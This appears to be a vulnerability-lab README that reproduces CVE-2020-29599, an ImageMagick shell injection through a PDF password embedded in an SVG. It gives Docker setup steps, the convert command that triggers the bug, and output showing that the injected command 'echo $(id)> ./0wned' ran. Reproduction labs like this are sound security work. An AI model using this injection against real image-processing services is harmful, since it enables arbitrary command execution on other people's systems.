

# ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Execute the following command to enter the Linux shell where Imagemagick 7.0.10-36 is installed:

```
docker-compose.exe run im bash
```

Enter the `/tmp` directory and convert the format of [poc.svg](poc.svg) to trigger the vulnerability:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

The command `echo $(id)> ./0wned` has been executed successfully:


